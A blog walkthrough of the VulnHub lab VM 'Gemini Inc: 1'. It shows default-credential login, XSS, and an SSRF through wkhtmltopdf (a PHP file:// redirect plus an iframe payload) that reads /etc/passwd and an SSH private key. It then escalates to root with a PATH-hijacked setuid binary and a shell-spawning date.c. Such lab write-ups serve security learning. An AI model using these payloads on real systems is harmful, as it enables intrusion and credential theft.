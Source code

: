 ```yaml
---
layout: post
date: 2018-05-20 17:53:34 +0000
title: "Good Things Come in Pairs"
category: Walkthrough
tags: [VulnHub, "Gemini Inc"]
comments: true
image:
  feature: tiger.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/tiger-predator-pair-fur-beautiful-2979932/
---
```


This post documents the complete walkthrough of Gemini Inc: 1, a boot2root [VM][1] created by [9emin1][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
**Gemini Inc** has contacted you to perform a penetration testing on one of their internal systems. This system has a web application meant for employees to export their profile to a PDF. Identify any vulnerabilities possible with the goal of complete system compromise with `root` privilege. To show the level of access obtained, please provide the content of `flag.txt` located in the `root` directory as proof.

### Information Gathering

Let's kick this off with a `nmap` scan to establish the available services in the host.

```
nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey:
|   2048 e9:e3:89:b6:3b:ea:e4:13:c8:ac:38:44:d6:ea:c0:e4 (RSA)
|_  256 8c:19:77:fd:36:72:7e:34:46:c4:29:2d:2a:ac:15:98 (ECDSA)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2018-01-07 08:35  test2/
|_
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Index of /
```
`nmap` finds `22/tcp` and `80/tcp` open. The document root lists one directory `test2` and this is how the site looks like from my browser.

![0.apvno5q230d](/assets/images/posts/geminiinc-walkthrough/0.apvno5q230d.png)

There's no need to fuzz the site for directories and/or files because the landing page has offered an important piece of information about the web application &mdash; it's built on [Master Login System](https://github.com/ionutvmi/master-login-system).

### Master Login System

If you'd watched the walkthrough [video](http://www.youtube.com/watch?v=y7SdQfZfLbA) at the project page, you'd have gotten the default login credential without resorting to any brute-force attack; and it's valid too.

![0.m8px4kc89u](/assets/images/posts/geminiinc-walkthrough/0.m8px4kc89u.png)

The drop-down action after logging in as `admin` with credential (`admin:1234`).

![0.gpd2zei0wfm](/assets/images/posts/geminiinc-walkthrough/0.gpd2zei0wfm.png)

Here's the `admin`'s profile page.

![0.cnnezs22awr](/assets/images/posts/geminiinc-walkthrough/0.cnnezs22awr.png)

Here's the `admin`'s profile page in PDF.

![0.htaf69v3tiu](/assets/images/posts/geminiinc-walkthrough/0.htaf69v3tiu.png)

I discover that I can access both the profile and export page without having to log in. This means that the export page (`export.php`) probably hardcoded the profile page (`profile.php?u=1`) for PDF conversion. Another interesting fact &mdash; `export.php` uses `wkhtmltopdf` for the PDF conversion.

![0.h6tdka9vftf](/assets/images/posts/geminiinc-walkthrough/0.h6tdka9vftf.png)

I also discover that **Display name** and **Email** are not input validated in the user's profile edit page (`user.php`). You can verify this from the source code of `user.php`.

```php
$email = $_POST['email'];
$display_name = $_POST['display_name'];
.
.
.
if(!isset($page->error) && $db->query("UPDATE `".MLS_PREFIX."users` SET `email` = ?s, `display_name` = ?s ?p WHERE `userid` = ?i", $email, $display_name, $extra, $u->userid))
```

This opens up the web application to vulnerabilities, such as cross-site scripting (XSS), `iframe` injection and server side request forgery (SSRF). And you know what's the best part? It's reflected on the profile page (`profile.php?u=1`) and by extension, the export page (`export.php`).

Simple XSS test.

![0.hp6nrhy7b4d](/assets/images/posts/geminiinc-walkthrough/0.hp6nrhy7b4d.png)

XSS'd.

![0.mvqpaa9wm5n](/assets/images/posts/geminiinc-walkthrough/0.mvqpaa9wm5n.png)

### Issue #3570

SSRF refers to an attack where an attacker is able to send a crafted request to trick a vulnerable web application to perform an unanticipated action.

In this case, we'd like to trick the web application to read local files such as `/etc/passwd` that we weren't able to, expose through PDF, using `wkhtmltopdf`.

After scouring through the issues in the `wkhtmltopdf` GitHub project, I found issue [#3570](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570) &mdash; _SSRF and file read with `wkhtmltoimage`_. In another stroke of luck, I found this [page](https://github.com/crackatoa/kertasgorengan/blob/master/catatan/SSRF%20wkhtml.md) (by googling for "wkhtmltoimage ssrf") that shows you how to exploit issue #3570. Although parts of the page were in Indonesian, the idea was so clear, it doesn't require translation. :wink:

It goes like this &mdash; `wkhtmltopdf` follows 302 redirection, captures the HTML, and turns it to PDF.

All we have to do is to host the following code as `1.php` in our attacking machine.

```php
<?php
     $file = $_GET['f'];
     header("location:file://$file");
?>
```

And put this in one of the injectable fields, e.g. **Display name**.

```html
<iframe src="http://192.168.10.128/1.php?f=/etc/passwd" width="100%" height=1220></iframe>
```

Simple? Let's give it a shot.

![0.k9d8bpti9sc](/assets/images/posts/geminiinc-walkthrough/0.k9d8bpti9sc.png)

Sweet. But how do we proceed from here? We can try brute-force attack on `gemini1`'s account. Another more efficient way is to read SSH related files off the victim, such as `authorized_keys` and `id_rsa`.

![0.gopakn5k5v](/assets/images/posts/geminiinc-walkthrough/0.gopakn5k5v.png)

There you have it &mdash; `/home/gemini1/.ssh/authorized_keys`. This is `gemini1`'s public key. I bet the private key (`id_rsa`) is in there as well.

![0.yb88plfehc](/assets/images/posts/geminiinc-walkthrough/0.yb88plfehc.png)

Awesome. We can now copy and paste the private key to our attacking machine and log in to `gemini1`'s SSH account.

### Low-privilege Shell

![0.9mfp03dho49](/assets/images/posts/geminiinc-walkthrough/0.9mfp03dho49.png)

Not too shabby.

### Privilege Escalation

One of my favorite privilege escalation techniques is to target files `setuid` to `root`. If there's a way to exploit such a file, we can become `root`.

Let's look for such files.

![0.kqoy3f6mn9](/assets/images/posts/geminiinc-walkthrough/0.kqoy3f6mn9.png)

Notice how the modification date/time of `listinfo` stands out from the rest?

Let's run `listinfo` and see what's the output.

![0.nbdfd9161of](/assets/images/posts/geminiinc-walkthrough/0.nbdfd9161of.png)

From what I can make of it, it appears to be the output of `ifconfig`, `netstat` and current date.

Let's look for strings in `listinfo`.

![0.pxqngjycg8](/assets/images/posts/geminiinc-walkthrough/0.pxqngjycg8.png)

It's evident the output of `listinfo` is the result of running the commands highlighted above.

Now, notice that `date` has no full path? If we change the search path `$PATH` and upload a malicious `date`, one that spawns a shell, then running `listinfo` escalates our privileges to `root`.

The following C code `date.c` allows us to `setuid` and `setgid` as `root`, and spawn a shell.

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main() {
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

First, we use `scp` to upload the malicious `date.c` to `gemini1`'s home directory from our machine.

```
# scp -i /root/keys/gemini1 date.c gemini1@192.168.10.130:/home/gemini1
```

Next, we compile it.

```
$ gcc -o date date.c`
```

![0.mrkt9jfxbkj](/assets/images/posts/geminiinc-walkthrough/0.mrkt9jfxbkj.png)

Lastly, we alter the search path `$PATH` in `gemini1`'s shell such that invoking `date` will run the malicious `date` instead.

```
$ export PATH=/home/gemini1:$PATH`
```

![0.bwl7cy99wn8](/assets/images/posts/geminiinc-walkthrough/0.bwl7cy99wn8.png)

Running `listinfo` gives us this.

![0.zybux538spi](/assets/images/posts/geminiinc-walkthrough/0.zybux538spi.png)

The pesky output from `listinfo` is still there. Let's do what I always do: generate the SSH key pair I control, upload the public key to `/root/.ssh/authorized_keys`, and log in with the private key.

![0.kubd74dnyo](/assets/images/posts/geminiinc-walkthrough/0.kubd74dnyo.png)

:dancer:

### Afterthought

I learned a great deal about SSRF from this VM.

[1]: https://www.vulnhub.com/entry/gemini-inc-1,227/
[2]: https://twitter.com/@sec_9emin1
[3]: https://www.vulnhub.com
